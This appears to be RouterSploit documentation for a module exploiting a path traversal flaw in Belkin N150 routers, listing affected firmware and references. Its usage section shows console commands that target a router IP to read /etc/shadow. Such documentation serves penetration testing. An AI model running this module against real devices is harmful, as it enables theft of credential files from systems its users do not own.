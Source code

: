 # Belkin N150 Path Traversal

## Description
Module exploits Belkin N150 Path Traversal vulnerability which allows to read any file on the system.

## Authors
* Aditya Lad # vulnerability discovery
* Rahul Pratap Singh # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/38488/](https://www.exploit-db.com/exploits/38488/)
* [http://www.belkin.com/us/support-article?articleNum=109400](http://www.belkin.com/us/support-article?articleNum=109400)
* [http://www.kb.cert.org/vuls/id/774788](http://www.kb.cert.org/vuls/id/774788)

## Vulnerable devices
* Belkin N150 1.00.07
* Belkin N150 1.00.08
* Belkin N150 1.00.09

## Usage
```
rsf > use exploits/belkin/n150_path_traversal
rsf (Belkin N150 Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   filename     /etc/shadow          File to read


rsf (Belkin N150 Path Traversal) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Belkin N150 Path Traversal) > run
[*] Running module...
```
